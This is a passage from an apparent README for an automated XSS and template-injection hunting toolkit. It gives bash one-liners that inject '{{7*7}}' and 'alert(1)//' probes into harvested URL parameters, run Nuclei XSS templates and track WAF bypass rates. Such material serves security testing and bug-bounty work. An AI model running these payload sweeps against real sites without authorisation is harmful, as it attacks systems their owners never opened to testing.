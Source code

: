 ### Template Injection
```bash
# Template Injection Detection
gau target.com | grep "=" | qsreplace '{{7*7}}' | while read url; do response=$(curl -s "$url"); echo "$response" | grep -q "49" && echo "Template injection possible: $url"; done
```

### JSONP XSS
```bash
# JSONP XSS Hunting
gau target.com | grep -E "(callback|jsonp)" | qsreplace 'alert(1)//'
```

## 📊 Results Analysis

### Automated Reporting
The system automatically generates:
- `gospider_results.txt` - Gospider findings
- `wayback_results.txt` - Wayback machine findings  
- `gau_results.txt` - GAU findings
- `nuclei_xss.txt` - Nuclei scan results
- `blind_xss_*.txt` - Blind XSS test results
- `xss_vibes_integration.txt` - GOD TIER technique results

### Frequency Analysis
```bash
# Analyze parameter frequency
waybackurls target.com | gf xss | uro | freq
```

### Success Rate Monitoring
The Python automation tracks:
- Total URLs tested
- Successful XSS findings
- Technique effectiveness
- WAF bypass success rates

## 🚀 Parallel Execution

The Python automation script runs techniques in parallel:
- 4 concurrent hunting threads
- 20-minute timeout per technique
- Automatic result aggregation
- Real-time progress monitoring

## 🏆 Integration with Nuclei

### XSS Template Scanning
```bash
# Nuclei XSS Scan
echo target.com | httpx -silent | nuclei -t ~/nuclei-templates/vulnerabilities/xss/
```
